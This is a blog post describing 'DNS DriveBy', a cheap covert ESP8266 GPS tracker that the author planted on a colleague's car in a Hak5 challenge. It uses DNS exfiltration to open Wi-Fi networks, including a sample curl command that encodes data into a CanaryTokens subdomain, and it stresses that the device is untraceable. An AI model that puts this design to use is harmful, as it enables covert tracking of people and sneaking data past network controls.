

<hr>




## Low-Cost Tracking Challenge
In a recent Hak5 episode, I took part in a challenge to track our elusive friend, Irish, and determine the various places he visited throughout the day.  

Since low-cost hardware & disposable signals intelligence is a core part of my projects, I challenged myself to create a tracker in the smallest practical footprint, and designed a $10 device that uses *only* Wi-Fi to provide location updates once planted on Irish's car.

Using DNS Exfiltration, [CanaryTokens](https://canarytokens.org), and an ESP8266 with specialized low-power hardware, I created a motion activated tracker that could transmit intermittent location updates, by connecting to open Wi-Fi networks that Irish would drive past.

**In this post, I'll talk about the design process of DNS DriveBy: a $10 proof-of-concept & wardriving technique that uses open Wi-Fi networks to provide location data, Wi-Fi reconnaissance, and other telemetry.**

<iframe width="100%" height="340" src="https://www.youtube.com/embed/H0Nwff0KDJ0?start=151" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

###### Resources
- [Source Code: GitHub](https://github.com/alexlynd/DNS-DriveBy)
- [Enclosure 3D Files](https://github.com/alexlynd/DNS-DriveBy)

## Mapping Wi-Fi Devices with Wardriving
Wardriving is my favorite lazy reconnaissance technique, since I can aimlessly [skate around](https://www.hackster.io/news/auditpi-portable-pi-setup-and-warskating-device-a152c2a0962f) and create an interactive map of vulnerable networks, IOT products, and various other devices in our wireless landscape.  

I've toyed with the idea of creating "disposable wardriving payloads" that I can slap on (my) car or a neighborhood cat (or anything that moves really), so I could get even lazier with collecting Wi-Fi intelligence - and created a [$10 wardriving rig]() using minimal components, making it accessible for anyone to replicate.  

I've used it to demonstrate how hackers can [phish your company with a mail parcel](https://youtu.be/GbkMA_VKbu0?t=70), and even [strapped it to a drone for warflying](https://www.youtube.com/watch?v=oWNIWHT8q1A) - but one obvious limitation lies in its inability to provide real-time telemetry for tracking applications, since it only uses a Wi-Fi radio.


While I *could* connect a SIM card module, this adds additional hardware and a cost barrier to my design - and also makes it more easily traceable if discovered.

**So I wondered, would it be possible to use un-authenticated Wi-Fi from coffee shops or setup networks that it drives past to upload wardriving data & GPS coordinates intermittently?**

## Bypass Captive Wi-Fi Portals with DNS
The answer is yes, but obviously it wasn't as simple that - I found that most of the open networks I encountered had a captive portal that requires you to input an email address or some other nonsense before you can actually connect to the web.

However, my friend [Kody](https://www.youtube.com/watch?v=H0Nwff0KDJ0) suggested I look into DNS requests to bypass the captive portal using a well-known technique called [DNS Exfiltration](https://www.youtube.com/watch?v=H0Nwff0KDJ0), which allows hackers to sneak sensitive information out of a network by hiding data "inside" of a domain name instead of sending a typical web request.

This works by making a DNS request to a domain name like `alexlynd.com`, but prepending a subdomain like `<password_here>.alexlynd.com` - so that way I can retrieve the password (or other sensitive information) on my server, by looking at the nameserver logs.

While this is typically used to bypass poorly-configured firewalls for data exfiltration, I can also take advantage of this technique to sneak our wardriving gps data **into** the network as well!  


Thanks to poor ingress filtering, I discovered that most of my nearby open networks allowed me to resolve DNS requests without "fully connecting" through the captive portal!

## CanaryTokens as a GPS Database
Hosting my own web server & infrastructure for DNS Exfiltration would be a pain in the ass, but luckily [CanaryTokens](https://https://canarytokens.org), an awesome free honeypot solution, offers a [DNS Token](https://canarytokens.org) service that makes it extremely simple to exfiltrate our data to an online dashboard!

To try this service out, I connected to my local coffee shop Wi-Fi from my laptop without entering my info into the captive portal, and used my phone to generate a DNS token, which gave me a unique url in the format `<dns-token-here>.canarytokens.org`.

In order to exfiltrate data to this token, [CanaryTokens specifices](https://docs.canarytokens.org/guide/dns-token.html) we prepend a random 2 digit number with `G`, and a base32 encoded subdomain - so I used an online converter to translate `meow123` to base 32: `NVSW65ZRGIZQ` and made a request to the following url with [cURL]():
```
curl NVSW65ZRGIZQ.G69.<dns-token-here>.canarytokens.org
```


It worked!  The last step was to create the hardware to log & convert GPS coordinates into base32 encoded strings, and automatically push that data through nearby open Wi-Fi networks.

## ESP8266 Wardriving Rig for $10
I didn't have a lot of time to iterate before deploying this project on Irish, so I tried my best to create a rugged prototype in the smallest possible form-factor using on-hand components.  Here's how it was done.




#### Breadboarding
The [ESP8266](https://www.espressif.com/en/products/socs/esp8266) is my favorite low-cost Wi-Fi microcontroller for its attack & reconnaissance capabilities, and I chose the minimal [ESP-01](https://www.microchip.ua/wireless/esp01.pdf) form-factor to keep my tracker footprint as small as possible.  

Paired with a [NEO-6M GPS module](https://www.u-blox.com/en/product/neo-6-series), I started by creating a breadboard prototype to test how many coordinates could be logged to the ESP8266's internal memory.


| Essential Components | Notes | Cost |
|----|----|----|
|[Wi-Fi Microcontroller (ESP8266)](https://www.aliexpress.us/item/2251832396421378.html)|I use an ESP-01 module for this prototype, but any other ESP8266 will work.  You will need a [programmer]() for it|$1|
|[GPS Module (NEO-6M)](https://www.aliexpress.us/item/3256804885465374.html)| Cheap, easy to source UART GPS |$3|

#### Memory Management
I found that storing the GPS coordinates quickly ate up heap space, causing overflows & crashes since the ESP8266 only has ~40KB of internal RAM - meaning I could only store around 625 GPS coordinate pairs (as floats).  

To mitigate this, I implemented a [queue](https://www.geeksforgeeks.org/queue-data-structure/) system that pushes coordinates to the internal 1MB Flash Memory with [SPIFFS](https://www.tutorialspoint.com/esp32_for_iot/esp32_for_iot_spiffs_storage.htm) - which also allows me to retain data in case of a power loss or reset.

To optimize the amount of memory available and reduce flash wear, I set the GPS to poll coordinates every 15 seconds, and only keep 100 coordinates in RAM as 34 character base32 encoded char arrays.  This allows me store around 15,600 coordinate pairs!






#### Low-Power Hardware
To keep the board powered for long enough to provide intel on Irish's whereabouts, implementing low-power hardware was necessary to conserve battery while his car was sitting idle.  Luckily, the ESP8266 comes with a low-power mode that brings power consumption down to around 20μA, which can be invoked with the following function:
```
ESP.deepSleep(0);
```  
Usually, we "wake" the board up in software [by specifying a delay](), but since I wanted to trigger a reset when motion is detected from a shake sensor, this was tricky since the onboard I/O pins are disabled in deep sleep mode.

Triggering the reset when Irish's car starts up was as simple as adding a shake sensor between `reset` and `ground` - but in order to prevent an accidental reset while the device is powered up, I had to use an [NPN transistor](https://www.electronics-tutorials.ws/transistor/tran_2.html) and a NOT gate to create a rudimentary [normally-closed switch](https://plashlights.com/blogs/news/normally-open-vs-closed-switch), which electronically "disconnects" the shake sensor while the tracker is powered up & moving.


| Reset Circuitry | Notes | Qty | Cost |
|----|----|----|----|
|[Shake Sensor](https://www.aliexpress.us/item/3256803953142444.html)|Wakes up ESP8266 from Deep Sleep when motion is detected|1|5¢|
|[NPN Transistor](https://www.aliexpress.us/item/3256803576929395.html)|Used to control reset circuit, use 2N3904 or similar|3|3¢|
|[10K Ω Resistor](https://www.aliexpress.us/item/2251832839624931.html)| Something about circuits |3|2¢|



#### Final Prototype
To piece it all together, I soldered all my components on a perfboard, and implemented a cheap BMS using a voltage regulator & an 400mAh LiPo battery that gives me around 4.5 hours of continuous reconnaissance (at a current draw ~90mAh).


| Battery Management | Notes | Qty | Cost |
|----|----|----|----|
|[3.7V LiPo Battery](https://www.aliexpress.us/item/3256803232619846.html)|I use a 400mAh battery with a max size `16x35x8mm` to fit in the enclosure|1|$2.5|
|[Slide Switch (SPDT)](https://www.aliexpress.us/item/2255799856317474.html)|Turn the tracker on/off|1|4¢|
|[Perfboard](https://www.aliexpress.us/item/2255800949347304.html)|Hell you could just connect everything with 22AWG wire|1|2¢|
|[Terminal Block](https://www.aliexpress.us/item/3256804481581777.html)|Screw-down connector for the LiPo battery|1|6¢|
|[ESP-01 Female Pin Header](https://www.aliexpress.us/item/2251832796106924.html)|ESP-01 standoff to give more space for mounting components|1|5¢|

To protect the electronics & provide a large enough surface to adhere to Irish's car, I used FreeCAD to whip up a minimal 2-part enclosure that you can [download here](https://github.com/alexlynd/DNS-DriveBy).


| Case Assembly | Notes | Qty | Cost |
|----|----|----|----|
|[M2.5 x 6mm Threaded Inserts](https://www.aliexpress.us/item/2255800399618554.html)|You don't need threaded inserts but they're nice|4|4¢|
|[M2.5 x 6mm Screws](https://www.aliexpress.us/item/2251832624557792.html)||4|6¢|

## Tracking Experiment Results
To test out the prototype, I enabled an open Wi-Fi network on my phone and drove around to see if I could get a consistent log of GPS coordinates along my route.  Since it's designed to cache data while no open networks are available, I turned off the hotspot at random intervals to see if I could still receive those coordinates.

I initially faced some issues with the [watchdog timer](https://techtutorialsx.com/2017/01/21/esp8266-watchdog-functions/) triggering while it attempted to scan for open networks, and heap overflows while multitasking between GPS logging & running Wi-Fi scans - but eventually got a pretty robust prototype working!


The next day, Kody, Michael, and I deployed our tracking systems on Irish, each using a different approach and reconnaissance style:  
- Michael used off-the shelf trackers and consumer products such as a [Tile tracker](https://www.tile.com)
- Kody used out-of-the-box hacker hardware and a tricky QR code phishing attack to track Irish using Wi-Fi probes from his phone
- I used my skills as a hardware developer to create a low-cost, virtually untracable implant to give me passive location updates


At the end of the day, I checked my CanaryTokens dashboard and had a couple hundred hits from Irish's excursion around East LA!  


In order to turn this data into something useful, I downloaded the CanaryTokens log as a `csv` file, used Python to parse the GPS coordinates, and used [Google MyMaps](https://mymaps.google.com) to visualize the data.  

Since the tracker was planted on Irish's car, this map only provides insight to the general areas that he visited - but I was still able to see that he stopped at Forest Lawn, and took a visit to the Glendale Galleria!

## Implications & Future Improvements
#### Limitations
While DNS DriveBy doesn't provide real-time GPS updates like an off-the-shelf solution would, my prototype was able to gather equally insightful data on the places Irish visited, in a much cheaper and less traceable footprint - since a SIM card or GPS Tracker UID could potentially be used to determine who planted it. 

The trade-off of course is relying on the presence of open Wi-Fi networks to provide telemetry, and the infrequent, intermittent updates - but given that the target (or wardriving neighborhood cat) is traversing somewhat urban areas, the density of open Wi-Fi networks should be modest.  If they're frequenting certain locations, it's also possible to hard-code known credentials for specific home/work networks as well!


#### Improvements

To make the design more robust and easier for beginners to assemble, I started designing a PCB kit that includes all the project components, which can also be used try out some of my other low-cost Signals Intelligence projects!

Using the [D1 Mini](https://www.wemos.cc/en/latest/d1/d1_mini.html) ESP8266 form-factor, this design allows for easy plug-and-play expansion with various [D1 hardware add-ons](https://www.wemos.cc/en/latest/d1_mini_shield/index.html), and also has a larger 4MB flash chip.


#### Conclusion & Future Ideas
After successfully plotting Irish's full trip with precise datetime and GPS data through intermittent updates, I successfully demonstrated the feasibility of fortuitous reconnaissance over open Wi-Fi networks!  Using tricky techniques like DNS exfiltration, I was able to bypass captive portals, and also used a $1 Wi-Fi microcontroller to create a low-profile tracker that provides GPS telemetry to an online dashboard.  

While I didn't get to explore the original "lazy wardriving" concept in this demo, DNS DriveBy lays the groundwork for a cheap, easy-to-replicate reconnaissance platform & exfiltration technique that I'll definitely embed in my future projects. 

Through [assisted GPS](https://www.iotforall.com/what-is-assisted-gps), I hope to push how far I can take this tracker in my next iteration, by using **only** a Wi-Fi radio (no GPS) and online database like [WiGLE](https://www.wigle.net/) to reverse the tracker's location based off known Wi-Fi networks.

If you want to follow updates on this project and more, check out my [Twitter](https://twitter.com/AlexLynd) and consider [donating](https://www.buymeacoffee.com/alexlynd) to support my work!  

#### Sponsor
This project wouldn't be possible without my sponsor [PCBWay](https://pcbway.com)!  Check out their website for PCB fabrication and other prototyping solutions.

